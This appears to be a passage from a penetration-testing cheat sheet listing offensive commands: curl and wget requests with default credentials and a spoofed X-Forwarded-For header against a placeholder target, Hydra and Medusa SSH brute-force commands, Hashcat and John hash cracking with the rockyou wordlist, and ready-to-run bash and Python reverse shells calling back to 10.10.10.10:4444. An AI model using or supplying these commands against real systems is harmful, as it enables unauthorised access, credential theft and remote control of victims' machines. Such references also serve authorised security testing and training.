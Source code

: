 ### curl for Exploitation
```bash
curl -X POST http://target.com/login -d "username=admin&password=admin"
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com/admin
curl -k https://target.com --cookie "session=abcd123"
```

### wget
```bash
wget --user=admin --password=admin http://target.com/file
```

---

## Credential Attacks and Password Cracking

### Hydra
```bash
hydra -L users.txt -P passwords.txt ssh://target.com -t 4 -V
```

### Medusa
```bash
medusa -h target.com -U users.txt -P rockyou.txt -M ssh
```

### Hashcat
```bash
hashcat -m 0 -a 0 hashes.txt rockyou.txt
```

### John
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

---

## Reverse Shells and Payloads

### Bash
```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

### Python
```python
python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("10.10.10.10",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh"])'
```
